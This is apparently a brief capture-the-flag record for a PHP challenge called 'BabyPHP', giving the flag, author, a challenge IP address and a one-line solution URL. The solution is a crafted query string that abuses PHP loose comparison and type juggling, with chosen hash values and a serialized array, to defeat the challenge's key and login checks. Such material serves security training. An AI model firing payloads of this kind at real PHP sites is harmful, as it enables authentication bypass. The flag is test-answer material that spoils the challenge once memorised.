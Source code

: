 # Chall Name
BabyPHP

# Chall Description
How secure is PHP ???

# Flag
inctf{y0u_f0und_17_bu65_c00l!!}

# Author
r4pt3r

# Link to chall
http://13.233.72.160

# Solution 
http://13.233.72.160/?key1=-200&key2=7.999999999999999999&rq=123&fp=202cb962ac59075b964b07152d234b70&np=123&nq=e3431a8e0adbf96fd140103dc6f63a3f8fa343ab&key3=a:2:{s:8:"username";d:0;s:8:"password";d:0;}

